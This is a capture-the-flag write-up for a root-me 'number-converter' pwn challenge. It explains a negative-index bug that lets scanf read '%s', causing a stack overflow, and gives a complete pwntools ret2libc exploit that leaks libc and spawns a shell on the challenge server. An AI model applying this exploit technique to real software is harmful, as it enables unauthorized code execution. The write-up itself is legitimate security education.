


This is a pwn challenge from ``root-me 10k CTF`` . Difficulty should be easy once we visualise our exploit flow.

# Summary

Abusing the fact that we can give negative indexes as input in the menu, we can leverage this primitive to adjust a call which looks like this ``scanf("%s", &choice)``. By achieving this, we can overflow the buffer that contains  the input number, which then goes for a classic ``ret2libc attack``.

# Static Analysis
We don't have that much of functions to reverse, binary is not stripped, simple reversing.

#### Main Function
```c++
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  __int64 input_buffer; // [rsp+10h] [rbp-10h] BYREF
  char v5; // [rsp+1Bh] [rbp-5h]
  int choice; // [rsp+1Ch] [rbp-4h]

  puts("-= Number converter v0.2 =-");
  printf("login: ");
  fgets(username, 31, stdin);
  username[strcspn(username, "\n")] = 0;
  printf("password: ");
  fgets(password, 31, stdin);
  password[strcspn(password, "\n")] = 0;
  if ( check_login() )
  {
    puts("Login success !");
    while ( 1 )
    {
      choice = menu();
      if ( !choice )
        break;
      if ( choice <= 3 )
      {
        printf("Input number: ");
        __isoc99_scanf(formatters[choice - 1], &input_buffer);
        printf("Converted: %lu\n", input_buffer);
        do
          v5 = getchar();
        while ( v5 != '\n' && v5 != (char)'\xFF' );
      }
      else
      {
        puts("Invalid choice!");
      }
    }
    result = 0;
  }
  else
  {
    puts("Invalid credentials!");
    result = 1;
  }
  return result;
}
```


First we are attempted with a login prompt which asks for a ``login`` and a ``password``, we can obtain the ``login``  and the ``password`` from the ``check_login()`` function which it's pseudocode goes like that :

```c++
_BOOL8 check_login()
{
  return !strcmp(username, "admin") && !strcmp(password, "sup3rus3r");
}
```
easy as pie , we got the necessary creds to pass the first prompt.

``login`` ->**admin**
``password`` -> **sup3ru3r**

so passing this prompt looks like it gives us a menu to choose from which goes likes that
```c++
__int64 menu()
{
  puts("Input type: ");
  puts("1. Decimal");
  puts("2. Hexadecimal");
  puts("3. Octal");
  puts("0. Exit");
  printf("> ");
  return read_int();
}
```
**Original chain flow of program** : 
1. Logging in.
2. Input a number.
3. Choose a type from the menu and it displays your input number with the new type.

Our first bug lays here. an ``out-of-bound`` "read" in the ``formatters`` array. ``choice`` variable is of type int , the check on the given choice checks if ``choice`` doesn't exceed 3 which is the total choices in th given menu. So now we kinda have a little control on the format specifier given to ``scanf`` .
huh ? ``scanf`` getting it's format specifier from an array of pointers ? looks a little bit sus.
dynamic analysis will give us the right answer.

# Dynamic Analysis
firing up the binary in gdb and trying to inpect where the given ``username`` and ``password`` is stored in.

Bingo , we have something in the mind now,  we can access memory before ``formatters`` address, also by this inspection we conclude that we also have control about what comes before ``formatters``.
how this work ?
let's try giving normal inputs to the binary and check this area again.



looks nice ``password+16`` and ``password + 24`` are free so we can use it freely.

# Exploitation
#### Theory

I tried in **Static and Dynamic analysis** to give the first nudge to understand the buf the occures in the binary, if you are following , by now you should be able to think of an exploitation path.
by passing the ``%s`` format specifier to  ``scanf`` we can trigger a buffer overflow.

###### Little visualization how the layout should be when exploiting


#### Practical
let's write a simple python script that implements the theory we discussed earlier.
```python
from pwn import *

p = process("./number-converter")
elf = ELF("./number-converter", checksec = 0)
libc = ELF("./libc-2.31.so", checksec = 0)

user = b"admin"

password = b"sup3rus3r"
password += b"\x00"
password += b"\x00" * 6
password += p64(0x4040d8) #password + 16
password += b"%s"
password += b"\x00" * 3

p.sendline(user)
p.sendline(password)
p.interactive()
```
( I switched to my VM for easier debugging.)

Now , we successfully prepared the layout for the exploitation. 

giving ``-1`` as the choice in the menu, we now accessed the format specifier in the ``formatters[-2]`` which is the pointer ``0x4040d8`` that points on ``%s``. Giving a large input nothing happens, since we are in a while loop we need just to break out of it.
```c++
        do
          v5 = getchar();
        while ( v5 != '\n' && v5 != (char)'\xFF' );
```
as the code do , we just give it a new line so it breaks.

now the broke broke , we have a sigsev. clear ret2libc attack.
I am going to go brief on the last exploitation phase since it's a classic attack.
```python
payload = b"A" * 24
payload += rdi
payload += p64(elf.got.puts)
payload += p64(elf.plt.puts)
payload += p64(elf.sym.main)
p.sendline(payload)
p.sendline(b"")
p.recvuntil("> ")
p.recvuntil("> ")
libc_leak = u64(p.recvline().strip(b"\n").ljust(8,b"\x00")) - libc.sym.puts
print(hex(libc_leak))

```
i grabbed ``pop rdi;ret`` gadget from ``ropper`` (ROPgadget works as well).
the offset to overwrite instruction pointer can be obtained using ``gdb``
i used the got entry of puts to leak a libc address.

libc leak successfull.

```python
system = libc_leak + libc.sym.system
binsh = libc_leak + next(libc.search(b"/bin/sh\x00"))
print(hex(system))
print(hex(binsh))
p.sendlineafter("login: ",user)
p.sendlineafter("password: ", password)
p.sendline("-1")
payload = b"A" * 24 + rdi + p64(binsh)  + ret + p64(system + 4)
p.sendline(payload)
```
calculating ``system`` and ``/bin/sh`` addresses. then sending it.
NB: i jumped to ``system + 4`` since whren trying to jump in ``system`` the program broke so i had to increment a little bit so i jump inside the function.


and voila, solved.
# Final Exploit
```python
from pwn import *
p = remote("ctf10k.root-me.org", 5006)
#p = process("./number-converter")
elf = ELF("./number-converter", checksec = 0)
#libc = elf.libc
libc = ELF("./libc-2.31.so", checksec = 0)
ret = p64(0x000000000040101a)
rdi = p64(0x0000000000401583)
user = b"admin"
password = b"sup3rus3r"
password += b"\x00"
password += b"\x00" * 6
password += p64(0x4040d8) #password + 16
password += b"%s"
password += b"\x00" * 3

p.sendlineafter("login: ", user)
p.sendlineafter("password: ", password)
p.sendline("-1")
payload = b"A" * 24
payload += rdi
payload += p64(elf.got.puts)
payload += p64(elf.plt.puts)
payload += p64(elf.sym.main)
p.sendline(payload)
p.sendline(b"")
p.recvuntil("> ")
p.recvuntil("> ")
libc_leak = u64(p.recvline().strip(b"\n").ljust(8,b"\x00")) - libc.sym.puts
print(hex(libc_leak))
system = libc_leak + libc.sym.system
binsh = libc_leak + next(libc.search(b"/bin/sh\x00"))
print(hex(system))
print(hex(binsh))
p.sendlineafter("login: ",user)
p.sendlineafter("password: ", password)
p.sendline("-1")
payload = b"A" * 24 + rdi + p64(binsh)  + ret + p64(system + 4)
p.sendline(payload)
p.sendline("")
#gdb.attach(p)
p.interactive()
```
for any clarification m on discord : ``Retr0#7958``.